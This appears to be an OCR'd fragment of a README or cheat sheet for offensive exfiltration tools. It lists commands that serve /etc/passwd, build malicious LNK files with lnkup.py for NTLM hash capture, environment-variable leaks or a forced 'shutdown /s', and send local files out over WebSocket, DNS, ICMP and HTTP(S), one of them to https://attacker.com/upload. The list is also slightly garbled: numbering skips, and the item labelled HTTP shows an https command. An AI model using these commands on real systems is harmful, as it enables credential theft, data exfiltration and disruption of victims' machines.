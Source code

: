 ```
zhina --path /etc/passwd --slice slice1M --serve simple
```


### LNK Data


```
lnkup.py --host localhost --type ntlm --output out.lnk
```


```
lnkup.py --host localhost --type environment --vars PATH USERNAME JAVA_HOME --output out.lnk
```


```
lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"
```



### WebSocket


```
exfiltrate websocket /path/to/local/file.txt
```


### All-in-One

1. **Using exfiltrate via DNS:**

```
exfiltrate dns /path/to/local/file.txt
```

2. **Using exfiltrate via ICMP:**

```
exfiltrate icmp /path/to/local/file.txt
```


4. **Using exfiltrate via HTTPS:**

```
exfiltrate https /path/to/local/file.txt
```


6. **Using exfiltrate via HTTP:**

```
exfiltrate https /path/to/local/file.txt
```


8. **Using exfiltrate via HTTP with custom endpoint:**

```
exfiltrate http --url https://attacker.com/upload /path/to/local/file.txt
```
